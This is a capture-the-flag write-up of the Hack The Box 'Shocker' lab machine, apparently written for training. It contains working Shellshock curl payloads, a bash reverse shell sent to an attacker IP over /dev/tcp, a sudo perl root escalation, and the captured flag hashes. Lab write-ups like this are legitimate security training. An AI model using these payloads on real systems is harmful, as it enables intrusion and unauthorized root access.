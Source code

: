 ```yaml
---
title: "HTB - Shocker"
author: "Anubhavsingh Sawdagur"
date: "2021-04-25"
subject: "Markdown"
subtitle: "10.10.10.56"
lang: "en-GB"
book: true
classoption: oneside
code-block-font-size: \scriptsize   
output: 
  pdf_document:
    fig_caption: false
---
```


# Shocker - 10.10.10.56

# Enumeration

## Nmap

```bash
nmap -sC -sV -oA nmap/initial 10.10.10.56 
```

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-25 22:13 EDT
Nmap scan report for 10.10.10.56
Host is up (0.24s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site does not have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.91 seconds
```

The Ubuntu version is most likely **Xenial**, source: [https://packages.ubuntu.com/search?keywords=apache2](https://packages.ubuntu.com/search?keywords=apache2)

![](Shocker.assets/image-20210425225756592.png)

## Gobuster

```bash
gobuster dir -t 30 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.56 -o log/gobuster.out 
```

![](Shocker.assets/image-20210425225231743.png)

The directory **/cgi-bin/** is used when apache gives a certain tasks to a scripting language such as Bash, Python.

The status 403 just means that the directory is present but the attacker does not have access to it.

![](Shocker.assets/image-20210425230223506.png)

This indicates that a shellshock attack can be used, given the name of the machine is also shocker.

```bash
gobuster dir -t 30 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.10.10.56/cgi-bin -x sh,py,txt,pl -o log/gobuster_cgi-bin.out
```

Even if an attacker cannot list the contents of the **/cgi-bin/** directory, the files can still be accessed if the name of the file is known.

Gobuster is being ran with several extensions to find if there are any files present. 

![](Shocker.assets/image-20210425230918395.png)

The file **user.sh** is found in the **/cgi-bin/** directory. On going to the file, the attacker is prompted to download dialog.

![](Shocker.assets/image-20210425231530638.png)

The content of **user.sh** looks to be the output of the bash command **uptime**

![](Shocker.assets/image-20210425231801722.png)

# Exploitation

## Shellshock

### **Vulnerability Explanation:**

Shellshock, also known as Bashdoor, is a family of security bugs in the  widely used Unix Bash shell, the first of which was disclosed on 24  September 2014. Many Internet-facing services, such as some web server  deployments, use Bash to process certain requests, allowing an attacker  to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

source: [https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

Upon testing a shellshock exploitation payload, it is concluded the web server is **vulnerable to the shellshock attack**. 

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo I was here'" "http://10.10.10.56/cgi-bin/user.sh"
```

![](Shocker.assets/image-20210425232500964.png)

### Getting a reverse shell

The tools used here to generate quick  reverse shell is called [rsg or reverse shell generator](https://github.com/mthbernardes/rsg)

```bash
# generates payload and as well as listens on the specified port
rsg 10.10.14.23 8888 bash 
# make the server connect back to the attacker using shellshock payload with bash reverse shell
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.23/8888 0>&1'" "http://10.10.10.56/cgi-bin/user.sh" 
```

![](Shocker.assets/image-20210426000718594.png)

A reverse shell is obtained as the user **shelly**. 

![](Shocker.assets/image-20210426011418915.png)

### User.txt

**User.txt** can be found in the home directory of **shelly**.

![](Shocker.assets/image-20210426011945515.png)

> user.txt: 4ddc9c1abd1d367712b3dd434eaf1a9b

## Privilege Escalation to Root

### Root.txt

The user shelly can execute perl as root

```bash
sudo -l
```

```bash
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

![](Shocker.assets/image-20210426012413725.png)

### **Vulnerability Explanation:**

Going to [gtfobins](https://gtfobins.github.io/gtfobins/), and searching for **perl**, it can be found that, perl can be used to spawn a shell.
Running perl as root, the attacker can break out from the restricted environment.

source: [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

![](Shocker.assets/image-20210426012904228.png)

```bash
sudo -l
sudo /usr/bin/perl -e 'exec "/bin/bash";'
whoami
```

![](Shocker.assets/image-20210426013049169.png)

the **root.txt** file is always located in **/root/**

![](Shocker.assets/image-20210426013339340.png)

> root.txt: 8d54789661e7e922780f49e1e2bfded1